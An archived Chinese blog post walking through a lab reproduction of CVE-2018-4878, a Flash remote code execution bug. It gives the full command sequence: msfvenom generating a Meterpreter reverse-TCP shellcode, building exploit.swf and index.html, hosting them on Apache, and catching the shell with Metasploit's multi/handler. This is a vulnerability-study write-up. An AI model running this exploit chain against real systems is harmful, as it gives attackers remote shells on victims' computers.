





# cve-2018-4878 漏洞复现 - lgf01010 - 博客园

> 原文：[`www.cnblogs.com/lgf01010/p/9549792.html`](https://www.cnblogs.com/lgf01010/p/9549792.html)

CVE-2018-4878
Flash 0day 漏洞 1、漏洞概述
2018 年 2 月 1 号，Adobe 官方发布安全通报（APSA18-01），声明 Adobe Flash 28.0.0.137 及其之前的版本，存在高危漏洞（CVE-2018-4878）。
攻击者通过构造特殊的 Flash 链接，当用户用浏览器/邮件/Office 访问此 Flash 链接时，会被“远程代码执行”，并且直接被 getshell。

靶机：Windows7 sp1

条件：Adobe Flash 28.0.0.137 及其之前的版本     IE8 浏览器及以前版本（IE9 好像也行）

所需工具已上传

kali：192.168.43.16

（需要输入的命令均用<>标记出来，<>不需要输入）

准备工作：

kali 中打开终端，找到下载的 cve-2018-4878 工具，切换到该路径（这种工具在未来应该尽量由自己写出来）

<msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.16 LPORT=4444 -f python>shellcode.txt>

生成 shellcode.txt 可以查看 kali 的 shellcode

<cat shellcode.txt>查看 shellcode，并替换 cve-2018-4878 里面原来的 shellcode

打开 cve-2018-4878.py，并根据图中指示修改

好了，改完之后在 cve-2018-4878（下载的工具文件夹路径中）

<python cve-2018-4878.py>生成要用的 exploit.swf 和 index.html

<ls>发现已经生成了 exploit.swf 和 index.html 两个文件

现在，我们要开启 apache2 服务，把两个文件复制到 apache web 路径中

<service apache2 start>

<cp index.html /var/www/html/index.html>

<cp exploit.swf /var/www/html/exploit.swf>

打开 msfconsole

<msfconsole>

使用监听模块

<use multi/handler>

加载一枚 payload

<set payload windows/meterpreter/reverse_tcp>

使用

<show options>查看需要设置的参数

万事具备，

<exploit>

现在，当靶机使用有 cve-2018-4878 漏洞的浏览器和 Adobe Flash 访问 http://192.168.43.16/index.html 时，就会获得靶机 shell

可以看到，已经反弹 meterpreter 会话，只要输入<shell>就可以拿到 shell

通过此次漏洞复习可以更加深刻的了解到，当我们访问一个网页时，其实是访问的一台电脑的某个文件，如果网页存在 sql 注入，可以通过 sql 注入来登陆网站后台，并通过进一步操作可以获取提供文件的电脑（服务器）的 shell，这个以后再说吧